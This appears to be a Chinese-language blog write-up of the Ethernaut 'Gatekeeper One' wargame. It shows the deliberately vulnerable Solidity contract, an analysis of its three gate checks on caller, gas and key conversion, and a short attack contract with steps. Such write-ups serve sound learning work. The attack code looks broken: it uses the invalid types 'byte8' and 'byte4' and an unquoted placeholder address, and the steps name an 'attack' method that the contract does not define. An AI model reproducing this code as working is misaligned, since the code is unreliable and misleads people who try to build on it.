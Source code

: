 ```yaml
---
layout: post
title: Gatekeep one
tags: [ethernaut]
---
```


# Gatekeep one
solidity的各类型转换
```solidity
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### 代码分析
1. gateOne说明接口需要通过合约调用
2. gateTwo说明到执行gateTwo的时候，gasleft的数量要为8191的倍数
    1. 可以先部署好攻击合约，查询到攻击合约执行到gateTwo时合约的剩余gas数量来确定需要设定的gas
3. gateThree说明：
    1. uint32(_gateKey) == uint16(tx.origin)： gateKey(共16位)的最后四位与tx.origin的后四位相同
    2. uint32(_gateKey) == uint16(_gateKey)：gateKey的第8为至12为应该全为0；
    3. uint32(_gateKey) != uint64(_gateKey)：gatekey的前8位不全为0
    
### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract Test {
    address public addr;
    function Test () {
        addr = your instance address;
    }
    
    function send(byte8 key, uint256 gasAmount) {
        addr.call.gas(gasAmount)(byte4(keccak256("enter(bytes8)")), key);
    }
}
```
### 攻击方法
1. 发布攻击合约，攻击合约中attack方法中调用了enter方法
2. 调用攻击合约，传入的gateKey满足上述条件